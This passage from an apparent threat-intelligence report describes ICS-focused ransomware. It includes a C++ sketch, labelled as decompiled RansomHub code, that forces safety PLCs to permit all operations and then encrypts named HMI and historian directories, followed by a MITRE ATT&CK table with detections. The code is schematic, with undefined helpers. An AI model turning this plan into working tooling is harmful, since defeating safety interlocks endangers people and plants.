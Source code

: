 ### Phase 4: ICS-Aware Ransomware Deployment
**MITRE ATT&CK**: T0800 - Activate Firmware Update Mode [[73]](#ref73)

#### RansomHub ICS Module
```cpp
// Decompiled RansomHub OT-specific module
// Targets safety instrumented systems before encryption
class ICSRansomware {
private:
    vector<string> critical_processes = {
        "FactoryTalk", "WinCC", "Wonderware", "Citect", 
        "RSLogix", "Unity", "TIA Portal"
    };
    
public:
    void DisableSafetyInterlocks() {
        // Identify safety PLCs
        auto safety_devices = FindDevicesByType("Safety_PLC");
        
        for (auto device : safety_devices) {
            // Force devices into programming mode
            SendCommand(device.ip, "STOP_CPU");
            SendCommand(device.ip, "DOWNLOAD_MODE");
            
            // Modify safety logic to always permit
            ModifySafetyLogic(device, "FORCE_PERMIT_ALL");
        }
    }
    
    void EncryptWithOTAwareness() {
        // Encrypt IT systems first
        EncryptFileSystems({"C:\\", "D:\\", "E:\\"});
        
        // Then target HMI and historian databases
        EncryptOTSystems({
            "C:\\ProgramData\\Wonderware\\",
            "C:\\Program Files\\Rockwell\\",
            "C:\\Siemens\\WinCC\\"
        });
        
        // Leave PLCs running but blind
        DisableHMIConnections();
    }
};
```

---

## MITRE ATT&CK Mapping

### Comprehensive TTP Matrix
| Tactic | Technique | Sub-Technique | Procedure | Detection | Reference |
|--------|-----------|---------------|-----------|-----------|-----------|
| Initial Access | T1195 | .002 | Supplier portal compromise | Supply chain monitoring | [[74]](#ref74) |
| Execution | T1059 | .001 | PowerShell Empire | Script block logging | [[75]](#ref75) |
| Persistence | T1547 | .001 | Registry run keys | Registry monitoring | [[76]](#ref76) |
| Privilege Escalation | T1068 | - | Citrix Bleed exploitation | Patch management | [[77]](#ref77) |
| Defense Evasion | T1562 | .001 | Disable security tools | Process monitoring | [[78]](#ref78) |